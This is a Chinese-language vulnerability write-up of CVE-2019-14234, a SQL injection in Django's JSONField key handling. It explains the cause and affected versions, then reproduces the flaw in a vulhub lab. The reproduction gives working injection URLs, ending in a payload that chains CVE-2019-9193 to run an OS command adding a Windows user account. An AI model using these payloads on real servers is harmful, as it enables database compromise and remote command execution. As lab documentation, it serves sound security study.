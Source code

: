 ```yaml
---
title: （CVE-2019-14234）Django JSONField sql注入漏洞
id: zhfly2886
---
```


# （CVE-2019-14234）Django JSONField sql注入漏洞

## 一、漏洞简介

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key_name是可控的字符串，最终生成的语句是WHERE (field->'[key_name]') = 'value'，因此可以进行SQL注入。

## 二、漏洞影响

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

## 三、复现过程

### 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/django/CVE-2019-14234/
docker-compose up -d 
```

### 漏洞利用

#### 1、登录后台

http://ip:8000/admin/vuln/collection/

#### 2、构造URL进行查询

http://ip:8000/admin/vuln/collection/?detail__a%27b=123

![image](../img/34c875f4a044e1cef87230f4356fa07e.png)

可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造

```
http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1-- 
```

后台生成的sql语句的关键部分是

```
WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s 
```

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

![image](../img/eab8468dd2ef055014fe5e37aee6a26c.png)

下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20 
```

页面结果虽然报错，但是报错原因是no results to fetch，说明我们的语句已经执行

![image](../img/f315c629d55e7fb03ceb93bbf1d46386.png)

最终payload

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20 
```